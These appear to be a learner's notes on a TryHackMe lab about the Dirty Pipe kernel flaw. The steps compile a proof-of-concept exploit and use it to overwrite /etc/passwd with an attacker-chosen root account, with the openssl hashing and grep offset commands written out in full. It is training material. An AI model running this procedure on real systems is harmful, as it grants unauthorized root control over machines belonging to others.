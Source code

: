 The program can be compiled using the following commands:

Compilation Command

```php
tryhackme@dirty-pipe:~$ cd ~/Exploit/PoC 
tryhackme@dirty-pipe:~/Exploit/PoC$ gcc poc.c -o exploit 
tryhackme@dirty-pipe:~/Exploit/PoC$ ls poc.c  exploit
```

This moves to the directory containing the exploit code, then compiles it with `gcc`.

Before we perform the exploit, it's very important that we backup the `/etc/passwd` file. This is a disruptive exploit which _will_ cause damage to the system (for a while at the very least); with the passwd file backed up, we can easily revert the damage after the exploit has been completed.

Use `cp /etc/passwd /tmp/passwd` to copy the passwd file to `/tmp`, then execute the exploit!

Your command should look something like this:

Executing the Exploit

```php
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'USERNAME:HASH:0:0::/root:/bin/bash 
> '
```

---

Steps:
- cat /etc/passwd
- Pick a password then use the `openssl` command to create a SHA512Crypt hash of your chosen password:
```php
openssl passwd -6 --salt THM "pass123"
```
- Finally, insert your username and hash into this passwd entry template: 
```php
USERNAME:HASH:0:0::/root:/bin/bash
```
- Create pass file it should look like this with a new line:
```php
'USERNAME:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash   
'
```
- Find offset
```php
grep -b "games" /etc/passwd
```
- Results: `189:games:x:5:60:games:/usr/games:/usr/sbin/nologin`
- Compile exploit
```php
gcc poc.c -o exploit
```
- Backup:  `cp /etc/passwd /tmp/passwd` to copy the passwd file to `/tmp`, then execute the exploit!
```php
cp /etc/passwd /tmp/passwd
```
- Run
```php
./exploit /etc/passwd 189
```
